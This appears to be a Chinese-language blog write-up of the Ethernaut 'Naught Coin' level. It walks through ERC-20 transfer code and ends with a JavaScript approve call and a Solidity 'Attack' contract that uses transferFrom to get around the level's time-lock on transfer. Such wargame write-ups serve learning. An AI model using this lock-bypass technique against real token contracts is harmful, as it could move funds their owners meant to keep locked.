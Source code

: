 ```yaml
---
title: Ethernaut - Naught Coin
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-23
---
```


Naught Coin 是一个 ERC20 货币！

这一节考点就是 ERC20 的概念了。

<!--more-->

# ERC-20 代币接收问题

当 ERC-20 代币被发送到并非为处理 ERC-20 代币而设计的智能合约时，这些代币可能会永久丢失。 出现这种情况的原因是，接收合约无法识别或回应所传入的代币，而且 ERC-20 标准中也没有通知接受合约所传入代币的机制。 导致这一问题的主要原因包括：

1. 代币转移机制

- ERC-20 代币使用 transfer 或 transferFrom 函数进行转移
    - 当用户使用这些函数将代币发送到合约地址时，无论接收合约是否是为处理它们而设计，代币都会被转移

1. 缺乏通知
    - 接收合约不会收到已向其发送代币的通知或回调
    - 如果接收合约缺乏处理代币的机制（例如，回退函数或专门用于处理代币接收的函数），则代币实际上会卡在合约的地址中
2. 无内置处理
    - ERC-20 标准不包含用于接收待实现合约的强制函数，导致许多合约无法正确管理传入的代币





除了 ERC-20 ，这个题还有个转账限制，合约创建10年后才可以转账2333

那我现在等十年回来再做（不是）



```solidity
function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
    super.transfer(_to, _value);
}
```

这里还是看一下父类的实现。

```solidity
function transfer(address to, uint256 value) public virtual returns (bool) {
    address owner = _msgSender();
    _transfer(owner, to, value);
    return true;
}

function _transfer(address from, address to, uint256 value) internal {
    if (from == address(0)) {
        revert ERC20InvalidSender(address(0));
    }
    if (to == address(0)) {
        revert ERC20InvalidReceiver(address(0));
    }
    _update(from, to, value);
}

function _update(address from, address to, uint256 value) internal virtual {
    if (from == address(0)) {
        // Overflow check required: The rest of the code assumes that totalSupply never overflows
        _totalSupply += value;
    } else {
        uint256 fromBalance = _balances[from];
        if (fromBalance < value) {
            revert ERC20InsufficientBalance(from, fromBalance, value);
        }
        unchecked {
            // Overflow not possible: value <= fromBalance <= totalSupply.
            _balances[from] = fromBalance - value;
        }
    }

    if (to == address(0)) {
        unchecked {
            // Overflow not possible:
            // value <= totalSupply or value <= fromBalance <= totalSupply.
            _totalSupply -= value;
        }
    } else {
        unchecked {
            // Overflow not possible: 
            // balance + value is at most totalSupply, which we know fits into a uint256.
            _balances[to] += value;
        }
    }

    emit Transfer(from, to, value);
}
```

没看出啥漏洞啊？





看来player是绕不过检测的，但是其他合约是不走这个检测的。

我可以让其他合约给 address(0) 发送 `1000000 * (10 ** uint256(decimals()))` 个货币，整个合约就没钱了？不对，因为直接用 transfer 不能给 address(0) 发。



是不是有其他的我可以调用的函数，绕过这个 transfer ？

```solidity
function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, value);
    _transfer(from, to, value);
    return true;
}

function _spendAllowance(address owner, address spender, uint256 value) internal virtual {
    uint256 currentAllowance = allowance(owner, spender);
    if (currentAllowance < type(uint256).max) {
        if (currentAllowance < value) {
            revert ERC20InsufficientAllowance(spender, currentAllowance, value);
        }
        unchecked {
            _approve(owner, spender, currentAllowance - value, false);
        }
    }
}

function _approve(address owner, address spender, uint256 value, bool emitEvent) internal virtual {
    if (owner == address(0)) {
        revert ERC20InvalidApprover(address(0));
    }
    if (spender == address(0)) {
        revert ERC20InvalidSpender(address(0));
    }
    _allowances[owner][spender] = value;
    if (emitEvent) {
        emit Approval(owner, spender, value);
    }
}
```

 发现个新概念，**授权和转移**

**授权和转移**：transferFrom 是 ERC-20 的授权机制的一部分。当用户调用 approve 函数授权某个地址（比如一个智能合约）在一定额度内代为转移代币时，其他地址（通常是智能合约或第三方）可以通过调用 transferFrom 来转移这些代币。



所以我可以给一个智能合约授权我的所有货币，然后让智能合约调用 tranferFrom 帮我把钱花掉。

```js
await contract.approve("0x6Aeb10F5b34A3553f57eAd90D3e2B5D7f0F52bEd", 1000000000000000000000000n)
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    address public target;
    constructor(address _target) {
        target = _target;
    }

    function transferAll() external payable {
        (bool success, bytes memory returnData) = address(target).call(
            abi.encodeWithSignature("transferFrom(address,address,uint256)", address(msg.sender), address(this), 1000000 * (10 ** uint256(18)))
        );
        require(success, "Call failed");
    }
}
```





